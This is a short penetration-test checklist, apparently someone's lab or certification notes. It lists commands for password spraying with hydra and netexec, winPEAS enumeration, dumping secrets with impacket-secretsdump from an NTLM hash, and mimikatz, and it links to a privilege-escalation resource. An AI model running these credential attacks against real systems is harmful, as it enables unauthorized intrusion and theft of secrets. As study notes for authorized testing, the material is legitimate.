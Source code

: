 # Penetration Test Checklist



## Web Application Testing



## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares



## Harvested a New Credential&#x20;

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>



## Popped a new Shell

#### Enumerate

* <pre><code><strong>$ .\winPEASx64.exe
  </strong></code></pre>

#### (PWNED) - Dump Secrets

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* ```powershell
  $ mimikatz
  ```

## Privilege Escalation

* [ ] PayloadAllTheThings&#x20;

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

## Lateral Movement

*
